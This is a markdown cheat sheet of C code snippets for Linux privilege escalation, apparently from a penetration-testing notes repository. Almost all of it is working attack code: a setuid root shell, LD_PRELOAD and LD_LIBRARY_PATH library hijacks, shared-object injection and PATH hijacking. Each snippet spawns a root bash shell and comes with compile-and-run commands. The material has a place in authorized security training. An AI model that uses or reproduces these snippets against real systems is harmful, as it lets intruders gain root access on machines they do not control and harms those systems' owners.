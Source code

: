 # C++ Snippets Utils

### Compile without dependency of GLIBC_2.XX

```bash
gcc exploit.c -o exploit -w -static
```

### Set UID and GID

```cpp
#include<unistd.h>
void main(){
    setuid(0);
    setgid(0);
    system("/bin/bash");
}
```

### Preload library with `LD_PRELOAD`

```cpp
/* 
Compile: gcc -fPIC -shared -nostartfiles -o preload.so preload.c
Run: sudo LD_PRELOAD=./preload.so program-name-here
 */
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

### Preload library with `LD_LIBRARY_PATH`

```cpp
/*
Look for some lib: ldd /your/app/here
Compile: gcc -o /lib/found/with/ldd/lib-name.so.1 -shared -fPIC ./library_path.c
Run: sudo LD_LIBRARY_PATH=. /your/app/here
*/
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
	unsetenv("LD_LIBRARY_PATH");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

### Shared Object injection

```cpp
/*
Look for some lib: strace /your/app/here 2>&1 | grep -iE "open|access|no such file"
Compile: gcc -shared -fPIC -o /lib/found/with/strace/lib-name.so ./injection-so.c
Run: /your/app/here
*/
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
	setuid(0);
	system("/bin/bash -p");
}
```

### Load library with Enviroment variables `PATH`

```cpp
/*
Look for some lib: strings /your/app/here
Compile: gcc -o service service.c
Run: PATH=.:$PATH /your/app/here
*/
int main() {
	setuid(0);
	system("/bin/bash -p");
}
```
